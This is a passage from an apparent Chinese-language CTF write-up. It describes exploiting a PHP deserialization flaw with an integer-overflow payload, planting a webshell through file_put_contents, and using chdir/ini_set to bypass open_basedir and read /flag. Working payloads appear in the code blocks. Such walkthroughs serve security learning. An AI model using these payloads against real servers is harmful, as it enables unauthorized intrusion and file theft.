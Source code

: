 ```
O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22count%22%3Bi%3A9223372036854775806%3B%7D
```

###  命令执行

所以我们先利用phpinfo验证下是否绕过。

![image-20220224231811173](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202242318363.png)



利用成功，找可以利用的信息

disabled_functions

![image-20220224232055268](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202242320367.png)



**open_basedir:/var/www/html**

**php-fpm:active**

###  拿webshell

发现没有禁用`file_put_contents`,我们利用这来传入木马。

![image-20220224232546546](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202242325655.png)

![image-20220224232605711](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202242326834.png)

蚁剑连接成功，访问根目录，发现没有权限，因为`open_basedir`

###  方法1：

####  绕过open_basedir

参考：https://blog.csdn.net/unexpectedthing/article/details/121916703

利用`ini.set()和chdir`

读取文件

```
backdoor=mkdir('flag');chdir('flag');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/'));
```

![image-20220224233329912](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202242333004.png)

flag在根目录，打开文件,没有权限读取文件内容，可能需要提权。

```
backdoor=mkdir('flag');chdir('flag');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(file_get_contents("/flag"));
```

![image-20220224233544582](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202242335691.png)
